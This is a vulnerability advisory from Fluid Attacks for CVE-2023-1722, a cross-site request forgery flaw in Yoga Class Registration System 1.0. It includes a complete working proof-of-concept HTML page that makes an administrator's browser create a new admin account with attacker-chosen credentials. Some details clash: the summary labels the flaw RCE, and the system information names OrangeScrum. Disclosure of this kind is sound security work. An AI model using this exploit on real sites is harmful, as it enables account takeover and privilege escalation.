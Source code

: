 ```yaml
---
slug: advisories/wyckoff/
title: Yoga Class Registration System 1.0 - ATO
authors: Carlos Bello
writer: cbello
codename: wyckoff
product: Yoga Class Registration System 1.0 - ATO
date: 2023-06-23 12:00 COT
cveid: CVE-2023-1722
severity: 6.5
description: Yoga Class Registration System 1.0 - Account Takeover
keywords: Fluid Attacks, Security, Vulnerabilities, ATO, YCRS
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | Yoga Class Registration System 1.0 - RCE                           |
| **Code name**         | [Wyckoff](https://en.wikipedia.org/wiki/Michael_Wycoff)            |
| **Product**           | Yoga Class Registration System                                     |
| **Affected versions** | Version 1.0                                                        |
| **State**             | Public                                                             |
| **Release date**      | 2023-06-23                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Cross-site request forgery                                                                                                  |
| **Rule**              | [007. Cross-site request forgery](https://docs.fluidattacks.com/criteria/vulnerabilities/007)                               |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:H/A:N                                                                                |
| **CVSSv3 Base Score** | 6.5                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2023-1722](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1722)                                               |

## Description

Yoga Class Registration System Version 1.0 allows an external
attacker to elevate privileges in the application. This is possible
because the application is not protected against CSRF attacks.

## Vulnerability

The application is not protected against CSRF attacks, so an attacker
can persuade an administrator to create a new account with administrative
permissions, along with the credentials set by the attacker.

## Exploitation

To exploit the vulnerability I have written the following exploit:

```html
<!DOCTYPE html>
<html>
  <body>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/retr02332.com\/php-ycrs\/classes\/Users.php?f=save", true);
        xhr.setRequestHeader("Accept", "*\/*");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=---------------------------426135374114296864734166274622");
        xhr.withCredentials = true;
        var body = "-----------------------------426135374114296864734166274622\r\n" +
          "Content-Disposition: form-data; name=\"id\"\r\n" +
          "\r\n" +
          "\r\n" +
          "-----------------------------426135374114296864734166274622\r\n" +
          "Content-Disposition: form-data; name=\"firstname\"\r\n" +
          "\r\n" +
          "test\r\n" +
          "-----------------------------426135374114296864734166274622\r\n" +
          "Content-Disposition: form-data; name=\"middlename\"\r\n" +
          "\r\n" +
          "test\r\n" +
          "-----------------------------426135374114296864734166274622\r\n" +
          "Content-Disposition: form-data; name=\"lastname\"\r\n" +
          "\r\n" +
          "test\r\n" +
          "-----------------------------426135374114296864734166274622\r\n" +
          "Content-Disposition: form-data; name=\"username\"\r\n" +
          "\r\n" +
          "test\r\n" +
          "-----------------------------426135374114296864734166274622\r\n" +
          "Content-Disposition: form-data; name=\"password\"\r\n" +
          "\r\n" +
          "test\r\n" +
          "-----------------------------426135374114296864734166274622\r\n" +
          "Content-Disposition: form-data; name=\"type\"\r\n" +
          "\r\n" +
          "1\r\n" +
          "-----------------------------426135374114296864734166274622\r\n" +
          "Content-Disposition: form-data; name=\"img\"; filename=\"\"\r\n" +
          "Content-Type: application/octet-stream\r\n" +
          "\r\n" +
          "\r\n" +
          "-----------------------------426135374114296864734166274622--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>
```

## Evidence of exploitation

![exploitation-poc](https://user-images.githubusercontent.com/51862990/229243714-bab48b84-4945-4d34-8929-58ea24cebdb1.gif)

![success-exploit](https://user-images.githubusercontent.com/51862990/229243790-a93c334a-a9ac-4756-8445-e76f80399796.png)

## Our security policy

We have reserved the CVE-2023-1722 to refer to these issues from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: OrangeScrum 2.0.11

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://www.sourcecodester.com/php/16097/yoga-class-registration-system-php-and-mysql-free-source-code.html>

## Timeline

<time-lapse
  discovered="2023-03-31"
  contacted="2023-03-31"
  replied="2023-03-31"
  confirmed=""
  patched=""
  disclosure="2023-06-23">
</time-lapse>
